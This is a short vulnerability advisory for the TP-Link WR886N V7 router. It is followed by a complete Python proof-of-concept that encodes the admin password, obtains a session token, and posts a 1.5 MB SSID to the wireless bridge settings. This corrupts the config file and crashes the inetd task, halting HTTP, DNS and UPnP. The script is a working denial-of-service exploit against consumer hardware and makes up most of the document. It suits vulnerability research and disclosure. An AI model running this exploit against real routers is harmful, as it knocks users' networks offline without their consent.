


# TP-Link WR886N V7 Inetd Task Dos 

**Vender**：TP-Link

**Firmware version**: 1.1.0

**Hardware version**: TL-WR886N 7.0

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.tp-link.com.cn/

**Hardware Link**:http://www.tp-link.com.cn/product_397.html

## Vul detail ##
In the router module `wireless`, user can setup wlan bridge parameters with http post request. An normal request looks like below.



After setup wlan bridge, `wireless` module will save data to config file.



If we send request with long value in specific json key, it will overflow and break the `wireless` module config file. 

If the string long enough it will also crash the inetd task, this will stop most network services, such as http, dns and upnp.  


## POC

```python
import requests


def security_encode(a):
    c = "RDpbLfCPsJZ7fiv"
    b = "yLwVl0zKqws7LgKPRQ84Mdt708T1qQ3Ha7xv3H7NyU84p21BriUWBU43odz3iP4rBL3cD02KZciXTysVXiV8ngg6vL48rPJyAUw0HurW20xqxv9aYb4M9wK1Ae0wlro510qXeU07kV57fQMc8L6aLgMLwygtc0F10a0Dg70TOoouyFhdysuRMO51yY5ZlOZZLEal1h0t9YQW0Ko7oBwmCAHoic4HYbUyVeU3sfQ1xtXcPcf1aT303wAQhv66qzW"
    d = ''
    e = f = g = h = k = 187
    m = 187
    f = len(a)
    g = len(c)
    h = len(b)
    if f > g:
        e = f
    else:
        e = g

    for i in range(e):
        m = k = 187
        if i >= f:
            m = ord(c[i])
        elif i >= g:
            k = ord(a[i])
        else:
            k = ord(a[i])
            m = ord(c[i])
        d += b[(k ^ m) % h]
    return d


def get_token(password):
    print(security_encode(password))
    login_url = 'http://192.168.1.1/'
    login_data = {"method": "do",
                  "login": {
                      "password": security_encode(password)
                  }
                  }
    rsp = requests.post(login_url, json=login_data)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        return rsp_json['stok']
    # set password
    elif rsp_json['error_code'] == -40401:
        set_password = {
            "method": "do",
            "set_password": {
                "password": security_encode(password)
            }
        }
    rsp = requests.post(login_url, json=set_password)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        # get token again
        return get_token(password)


password = 'password'
burp0_url = "http://192.168.1.1/stok=%s/ds" % get_token(password)


burp0_headers = {"Accept": "application/json, text/javascript, */*; q=0.01", "Origin": "http://192.168.1.1", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36", "Content-Type": "application/json; charset=UTF-8", "Referer": "http://192.168.1.1/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.6,ko;q=0.5", "Connection": "close"}
burp0_json = {"method": "set",
            "wireless":
                {"wlan_wds_2g":
                     {"bssid": "",
                      "enable": "0",
                      "encryption": "1",  # must be 0
                      "key": "AAA",
                      "ssid": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"}
                 }}

burp0_json['wireless']['wlan_wds_2g']['ssid'] = '%s' % ('A' * int(1.5 * 1024 * 1024))

rsp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, timeout=3)
print(rsp.content)
```